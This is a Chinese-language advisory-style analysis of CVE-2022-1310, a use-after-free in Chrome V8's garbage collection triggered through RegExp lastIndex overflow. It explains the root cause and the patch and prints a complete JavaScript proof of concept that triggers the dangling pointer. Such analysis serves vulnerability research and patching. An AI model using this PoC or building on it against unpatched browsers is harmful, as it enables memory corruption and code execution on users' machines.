






## Chrome V8命令执行漏洞（CVE-2022-1310）
> @btiszka报告于2022年3月18日, google 更新于2022年4月11日

### 漏洞描述

chrome V8 引擎的垃圾回收机制中，在处理Number类型数据时，没有考虑Smi值溢出的情况，致使新分配的HeapNumber对象破坏了Write-Barrier机制造成UAF，最终导致了任意代码执行。

### 影响范围

chrome v100.0.4896.88前版本

### 漏洞详情

#### 漏洞位置

```cpp
MaybeHandle<Object> RegExpUtils::SetLastIndex(Isolate* isolate,
                                              Handle<JSReceiver> recv,
                                              uint64_t value) {
  Handle<Object> value_as_object =
      isolate->factory()->NewNumberFromInt64(value); /*** A ***/
  if (HasInitialRegExpMap(isolate, *recv)) { /*** B ***/
    JSRegExp::cast(*recv).set_last_index(*value_as_object, SKIP_WRITE_BARRIER); /*** C ***/
    return recv;
  } else {
    return Object::SetProperty(
        isolate, recv, isolate->factory()->lastIndex_string(), value_as_object,
        StoreOrigin::kMaybeKeyed, Just(kThrowOnError));
  }
}

```

#### 漏洞触发条件

将最大 smi 1073741823 存储到 `last_index` 中，`AdvancedStringIndex` 会将其递增为 `1073741824`，然后 `NewNumberFromInt64` 会将其转换为 NewSpace 中的 `HeapNumber`，最后是 `JSRegExp ::cast(*recv).set_last_index` 会将其存储到正则表达式对象中，没有任何写障碍。如果 regexp 对象在 old-space 中，则 `NewNumberFromInt64` 分配的 HeapNumber 在 NewSpace 中，并且发生 Minor GC 这会导致 `last_index` 成为悬空指针并指向 NewSpace 中的任意对象。

#### 漏洞原理

当在JS代码中调用re[Symbol.replace]函数时，V8引擎使用Runtime_RegExpReplaceRT函数进行处理，函数中的异常退出分支会调用RegExpUtils::SetAdvancedStringIndex，该函数最终将re.lastIndex加1并写回re对象中。



可见，上述函数功能约等于re.lastIndex += 1，对于类似的代码逻辑，在底层语言中通常需要考虑边界值，防止出现数据溢出。V8中的Number类型分为Smi和HeapNumber，Smi代表了小整数，和对象中的指针共享存储空间，通过值的最低位是否为0来区分类型，超出Smi表示范围的值会在堆中创建HeapNumber对象来表示，在32位环境下，Smi值的范围为-2^30到2^30 – 1。



根据上述逻辑，当我们对RegExp对象赋值re.lastIndex=1073741823，并进入Runtime_RegExpReplaceRT函数逻辑时，由于加1后的值1073741824超过Smi的表示范围，V8引擎在堆中重新申请了一个HeapNumber对象来存储新的lastIndex值，此时，该RegExp对象的lastIndex属性不再是一个Smi数，而是一个指向堆中HeapNumber对象的指针。如下图所示：



在之前的垃圾回收中已经介绍，V8的Minor GC的Write-Barrier机制需要对将新生代内存中的新建对象置灰并添加到标记列表中，以省略对老年代对象的遍历。但函数SetLastIndex在处理RegExp对象存在初始化Map情况的代码分支中，默认lastIndex是一个Smi值并使用SKIP_WRITE_BARRIER标记跳过了写屏障。因此，当re.lastIndex变成了HeapNumber对象，又没有被Write-Barrier标记，那么在GC发生时，该对象就会被当作可回收对象被释放，释放后re.lastIndex属性指针就变成了一个悬垂指针，指向了一个已释放的堆空间，再次尝试访问这个对象空间，就产生了Use-After-Free漏洞。



该漏洞（CVE-2022-1310）是一个典型的UAF漏洞，触发后可以通过堆喷重新分配释放后的内存空间达到利用的目的，但由于GC时间和堆喷的不稳定性，会给漏洞利用增加一定难度。在漏洞报告中，作者也给出了完整的利用代码，感兴趣可通过参考文档中的issue 1307610的完整报告继续研究。



### poc/exp

[poc.js](https://bugs.chromium.org/p/chromium/issues/attachmentText?aid=547161)

```js
var ref = new Array(1000000);
var rid = 0;

var re = new RegExp('foo', 'g');

function major_gc() {
    new ArrayBuffer(0x7fe00000);
}

function minor_gc() {
    for (var i = 0; i < 32; i++) {
        ref[rid++] = new ArrayBuffer(0x200000);
    }
    ref[rid++] = new ArrayBuffer(1); // ram heuristic
}
//%DebugPrint(re);
var tmp = re.exec;

var match_object = {};
match_object[0] = {
    toString : function() {
        return "";
    }
};

re.exec = function() {
    major_gc(); // mark-sweep
    delete re.exec; // transition back to initial regexp map
    re.lastIndex = 1073741823; // maximum smi, adding one will result in a HeapNumber
    RegExp.prototype.exec = function() {
        throw ''; // break out of Regexp.replace
    }
    return match_object;
};

try {
    var newstr = re[Symbol.replace]("fooooo", ".$");
} catch(e) {}

minor_gc();
minor_gc();
major_gc();

print(re.lastIndex);
```


### 漏洞修复建议

相关厂商已更新补丁修复漏洞，升级相关软件至最新版本。
将SKIP_WRITE_BARRIER标记改成UPDATE_WRITE_BARRIER即可。

